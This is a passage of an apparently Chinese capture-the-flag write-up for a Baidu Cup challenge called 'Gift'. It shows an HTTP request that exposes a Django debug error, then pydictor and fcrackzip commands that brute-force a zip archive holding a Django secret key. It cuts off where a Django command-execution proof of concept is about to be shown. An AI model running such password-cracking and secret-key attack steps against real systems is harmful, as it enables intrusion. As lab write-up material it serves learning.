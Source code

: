 # 百度杯十月场 Gift
打开题目，post发get包,得到报错`More information is available with DEBUG=True.`，发现是django
```
POST / HTTP/1.1
Host: c0a0e53c0f2d4f4fa60e8850469e05c794f99e0dbd734ea1.changame.ichunqiu.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

github上找到压缩文件，破解密码解压发现是django的secret key

```
# 根据提示生成生日字典
python pydictor.py -plug birthday 19900101 20141231 --len 8 8
# 使用字典爆破压缩包，密码是20001111
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u crack_this.zip
```

找到django命令执行poc

`1